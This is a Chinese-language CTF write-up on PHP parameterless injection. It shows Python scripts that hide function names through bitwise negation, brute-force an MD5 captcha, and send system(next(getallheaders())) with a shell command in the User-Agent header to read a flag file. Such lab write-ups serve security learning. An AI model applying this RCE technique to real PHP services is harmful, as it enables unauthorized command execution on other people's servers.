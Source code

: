 tags:: [[CTF/PHP/无参数注入]]

- # 思路
	- 使用取反构造任意函数名，并使用[无参数注入]([[CTF/PHP/无参数注入]])进行RCE
- # 取反构造函数名
	- python脚本如下
	- ```python
	  def get_str(s):
	      return b"[~PAYLOAD][!\xFF]".replace(b"PAYLOAD", bytes(255 - ord(c) for c in s))
	  
	  def payload(lst):
	      if len(lst) == 0:
	          return b";"
	      return b"STRING(SUBPAYLOAD);".replace(b"STRING", get_str(lst[0])).replace(
	          b"SUBPAYLOAD",
	          payload(lst[1:]).replace(b";", b"")
	      )
	  
	  print(payload(["var_dump", "getallheaders"]))
	  ```
- # 利用无参数注入进行RCE
	- 使用`system(next(getallheaders()))`拿到UserAgent并传给`system`函数即可
	- ```python
	  @functools.lru_cache
	  def get_code(md5_head):
	      while True:
	          s = random_chars()
	          if enc_dec.md5_encode(s).startswith(md5_head):
	              return s
	  
	  r = base_get(url)
	  result = re.search(",0,5\)==(.{5})", r.text)
	  assert result is not None
	  captcha = result.group(1)
	  print(captcha)
	  
	  def get_str(s):
	      return b"[~PAYLOAD][!\xFF]".replace(b"PAYLOAD", bytes(255 - ord(c) for c in s))
	  
	  def payload(lst):
	      if len(lst) == 0:
	          return b";"
	      return b"STRING(SUBPAYLOAD);".replace(b"STRING", get_str(lst[0])).replace(
	          b"SUBPAYLOAD",
	          payload(lst[1:]).replace(b";", b"")
	      )
	  
	  r = base_post(url, data = {
	      "cmd": payload(["system", "next", "getallheaders"]),
	      # "code": "1145"
	      "code": get_code(captcha)
	  }, headers = {
	      "User-Agent": "cat /flll1114gggggg"
	  })
	  print(r.text)
	  ```